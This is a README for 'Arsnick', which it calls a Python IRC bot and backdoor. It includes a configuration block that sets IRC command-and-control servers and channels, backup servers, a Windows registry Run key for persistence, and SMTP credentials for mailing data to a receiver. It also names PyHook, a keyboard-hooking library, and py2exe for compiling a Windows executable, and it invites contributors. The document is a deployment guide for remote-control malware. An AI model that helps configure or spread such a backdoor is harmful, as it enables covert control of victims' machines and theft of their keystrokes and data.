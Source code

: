 # Arsnick

Arsnick is a Python IRC Bot/Backdoor written in Python.

Some implementations and debugs are needed.

env :Python 2.7.5

# Configuration
You can configure it by looking at the #CONFIG section in the source code:

```
#CONFIG
#winrgky      = 'Windows Default Service' #Windows Registry Run Key 
ircs          = 'irc.tiscali.it'          #IRC Server
ircp          = 6667                      #IRC Port
ircc          = '#yourircchannel'         #IRC Channel
ircs_backup   = 'eris.us.ircnet.net'      #Backup IRC Server
ircp_backup   = 6667                      #Backup IRC Port
ircc_backup   = '#yourircchannel2'        #Backup IRC Channel
version       = '1.0.1'                   #Arsnick Version
username      = 'sender@mail.com'         #Sender Mail
password      = 'password'            	  #Sender Mail password
emailsender   = 'ssender@mail.com'        #Sender Mail Name
#emailsmtp    = 'smtp.mail.ru'            #SMTP Server
#emailsmtport = '465'                     #SMTP Port
emailreceiver = 'receiver@mail.com'       #Destination Mail
```

Once the confing has been done, run it and test it by sending commands using the dot for command triggering.
Ex.: .info


# Requirements
Use 'pip install' for missing libraries.
PyHook - https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/
 
# Compile
Py2Exe - http://www.py2exe.org/

# This projects needs contributors 
